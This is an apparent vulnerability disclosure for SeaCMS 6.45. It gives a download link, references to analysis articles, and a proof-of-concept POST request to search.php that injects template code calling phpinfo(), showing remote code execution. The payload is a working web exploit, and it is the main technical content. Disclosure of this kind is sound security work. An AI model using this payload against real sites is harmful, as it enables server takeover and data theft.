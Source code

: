 ##  Affected Version

 Seacms 6.45

[https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw ](cd48)【cd48】



## POC



`http://127.0.0.1/seacms645/search.php`

`post:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}`



![](http://opmi2ydgh.bkt.clouddn.com//18-7-5/92423502.jpg)



## References

[https://bbs.ichunqiu.com/thread-35085-1-1.html]([SeaCMS v6.45前台Getshell 代码执行漏洞分析](https://bbs.ichunqiu.com/thread-35085-1-1.html))

[http://0day5.com/archives/4249/](http://0day5.com/archives/4249/)

[https://blog.csdn.net/qq_35078631/article/details/76595817](https://blog.csdn.net/qq_35078631/article/details/76595817)



